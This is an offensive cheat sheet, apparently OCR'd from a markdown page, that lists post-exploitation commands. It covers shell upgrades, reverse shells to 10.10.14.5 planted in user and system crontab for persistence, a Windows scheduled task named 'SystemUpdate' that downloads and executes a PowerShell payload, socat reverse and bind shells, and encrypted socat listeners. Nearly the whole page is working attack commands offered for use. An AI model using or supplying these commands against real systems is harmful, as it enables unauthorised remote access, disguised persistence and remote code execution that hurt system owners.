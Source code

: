 ```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Create fully interactive TTY shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
```

## Add reverse shell to crontab for persistence

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'" | crontab -
```

## Add system-wide cron job for persistence

```bash
echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'" >> /etc/crontab
```

## Create Windows scheduled task for persistence

```cmd
schtasks /create /tn "SystemUpdate" /tr "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')" /sc minute /mo 5
```

## Create socat reverse shell on Linux

```bash
socat TCP:10.10.14.5:4444 EXEC:/bin/bash
```

## Create socat bind shell on Linux

```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

## Generate certificate for encrypted socat shell

```bash
openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```

## Create encrypted socat listener

```bash
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
